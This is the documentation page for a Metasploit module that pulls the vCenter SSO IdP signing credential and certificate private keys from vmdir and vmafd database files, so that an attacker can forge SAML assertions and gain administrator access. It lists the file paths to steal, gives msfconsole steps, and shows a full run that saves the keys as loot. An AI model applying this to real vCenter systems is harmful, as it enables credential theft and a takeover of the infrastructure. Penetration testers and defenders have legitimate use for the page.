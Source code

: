 Grab certificates from the vCenter server vmdird or vmafd database files and adds them to loot.
This module will accept files from a live vCenter appliance or from a vCenter appliance backup
archive; either or both files can be supplied to the module depending on the situation. The module
will extract the vCenter SSO IdP signing credential from the vmdir database, which can be used to
create forged SAML assertions and access the SSO directory as an administrator. The vmafd service
contains the vCenter certificate store which from which the module will attempt to extract all vmafd
certificates that also have a corresponding private key. Portions of this module are based on
information published by Zach Hanley at Horizon3:

https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/

## Vulnerable Application
This module is tested against the vCenter appliance but will probably work against Windows instances.
It has been tested against files from vCenter appliance versions 6.5, 6.7, and 7.0. The module will
work with files retrieved from a live vCenter system as well as files extracted from an unencrypted
vCenter backup archive.

## Verification Steps
You must possess the vmdir and/or vmafd database files from vCenter in order to use this module. The
files must be local to the system invoking the module. Where possible, you should provide the
`VC_IP` option to tag relevant loot entries with the IPv4 address of the originating system. If no
value is provided for `VC_IP` the module defaults to assigning the loopback IP `127.0.0.1`.

1. Acquire the vmdir and/or vmafd database files from vCenter (see below)
2. Start msfconsole
3. Do: `use auxiliary/admin/vmware/vcenter_offline_mdb_extract`
4. Do: `set vmdir_mdb <path to data.mdb>` if you are extracting from the vmdir database
5. Do: `set vmafd_db <path to afd.db>` if you are extracting from the vmafd database
6. Do: `set vc_ip <vCenter IPv4>` to attach the target vCenter IPv4 address to loot entries
7. Do: `dump`

## Options
**VMDIR_MDB**

Path to the vmdird MDB database file on the local system. Example: `/tmp/data.mdb`

**VMAFD_DB**

Path to the vmafd DB file on the local system. Example: `/tmp/afd.db`

**VC_IP**

Optional parameter to set the IPv4 address associated with loot entries made by the module.

## Scenarios

### Acquire Database Files
This module targets the internal databases of vCenter vmdir (OpenLDAP Memory-Mapped Database) and
vmafd (SQLite3). On a live vCenter appliance, these files can be downloaded with root access from
the following locations:

`vmdir: /storage/db/vmware-vmdir/data.mdb`
`vmafd: /storage/db/vmware-vmafd/afd.db`
    
If you are extracting from a backup file, target files are available in the following archives:

`vmdir: lotus_backup.tar.gz`
`vmafd: config_files.tar.gz`

### Running the Module
Example run against database files extracted from vCenter appliance version 7.0 Update 3d:

```
msf6 > use auxiliary/admin/vmware/vcenter_offline_mdb_extract
msf6 auxiliary(admin/vmware/vcenter_offline_mdb_extract) > set vmdir_mdb /tmp/data.mdb
vmdir_mdb => /tmp/data.mdb
msf6 auxiliary(admin/vmware/vcenter_offline_mdb_extract) > set vmafd_db /tmp/afd.db
vmafd_db => /tmp/afd.db
msf6 auxiliary(admin/vmware/vcenter_offline_mdb_extract) > set vc_ip 192.168.100.70
vc_ip => 192.168.100.70
msf6 auxiliary(admin/vmware/vcenter_offline_mdb_extract) > dump

[*] Extracting vmwSTSTenantCredential from /tmp/data.mdb ...
[+] SSO_STS_IDP key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_idp_571080.key
[+] SSO_STS_IDP cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_idp_564729.pem
[+] VMCA_ROOT cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_vmca_721819.pem
[*] Extracting vSphere platform certificates from /tmp/afd.db ...
[+] __MACHINE_CERT key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70___MACHINE_CERT_869237.key
[+] __MACHINE_CERT cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70___MACHINE_CERT_240839.pem
[+] DATA-ENCIPHERMENT key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_DATAENCIPHERMEN_350586.key
[+] DATA-ENCIPHERMENT cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_DATAENCIPHERMEN_106169.pem
[+] HVC key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_HVC_825963.key
[+] HVC cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_HVC_399928.pem
[+] MACHINE key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_MACHINE_995574.key
[+] MACHINE cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_MACHINE_156797.pem
[+] SMS_SELF_SIGNED key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_SMS_SELF_SIGNED_169524.key
[+] SMS_SELF_SIGNED cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_SMS_SELF_SIGNED_230704.pem
[+] VPXD key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VPXD_370336.key
[+] VPXD cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VPXD_300599.pem
[+] VPXD-EXTENSION key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VPXDEXTENSION_571196.key
[+] VPXD-EXTENSION cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VPXDEXTENSION_088742.pem
[+] VSPHERE-WEBCLIENT key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VSPHEREWEBCLIEN_060718.key
[+] VSPHERE-WEBCLIENT cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VSPHEREWEBCLIEN_280013.pem
[+] WCP key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_WCP_057402.key
[+] WCP cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_WCP_909204.pem
[*] Auxiliary module execution completed
msf6 auxiliary(admin/vmware/vcenter_offline_mdb_extract) > 
```